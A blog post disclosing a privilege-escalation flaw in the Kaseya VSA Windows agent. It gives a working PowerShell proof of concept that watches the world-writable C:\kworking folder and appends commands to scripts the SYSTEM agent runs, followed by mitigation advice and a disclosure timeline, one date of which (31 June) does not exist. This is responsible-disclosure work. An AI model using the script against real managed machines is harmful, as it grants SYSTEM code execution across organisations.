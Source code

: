 ```yaml
---
layout: post
category: publish
title: Kaseya privilege escalation
---
```


<p>
So this is the first time I've written about a security issue.
I decided to write about this as the vendor was unresponsive and looking their previous CVEs it seems to be a
pattern. The other reason is that if any organisation is using this product, most of their machines are at risk. 

So I give you <a href="https://www.kaseya.com/products/vsa/">Kaseya VSA.</a>
</p>

<h3>Product</h3>
<h4>Windows 10. Agent version <= 9.5</h4>
<p>
Kaseya VSA provides a web application to manage deploy agents on an organisations systems.
Its a competitor to Microsoft system centre and has a tiny portion of the market when compared with similar products.
The installed package is made up of several tools and a controlling agent binary leveraging host capabilities such as PowerShell, WScript as well as a couple of executables like curl.
</p>
  
<h3>Vulnerability</h3>
<p>
This is not a new issue as such but more of the same in line with <a href="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
A a fix was put in place for the original CVE, however it was specific to binaries and not scripts.
The root cause for both issues is allowing a low privileged group excessive permissions to a folder used by a elevated process.
 
</p>

  <img src="/images/authenticated.png" />
  
<p>
The Kaseya agent runs as SYSTEM by default.
The agent also has a default working folder @ <code class="highlighter-rouge">C:\kworking\</code>.
It will pull scripts and binaries to this folder and execute them from disk from the controlling web application.
By default the <code class="highlighter-rouge">Authenticated Users</code> group has all rights to this folder.

Scripts are written to disk however they are not checked for integrity prior to execution.
So malicious code can be appended prior to execution.
</p>

<h3>Impact</h3>
<p>
Given that the VSA agent is used to manage assets, if the agent is found on a single machine within an organisation there is a good chance it has been deployed across the majority of the organisation. The vulnerability itself is reliant on code execution within the working folder and depends on scheduled tasks or ad-hoc script execution from the web interface, so the wait time can vary.

So this is case by case based on script usage via agents within the organisation.
</p>

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the default working directory.
When a ps1 script drops from a scheduled task or run from the VSA web application it will then append the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.

<h3>Mitigation</h3>
<p>
All scripts should be signed and verified prior to execution eliminating the ability to append arbitrary commands. Additionally Kaseya should remove the excessive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact on the Kaysea product.
</p>

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requesting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-06-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
  <li>02-09-2019 :: No response. Findings published</li>
</ul>
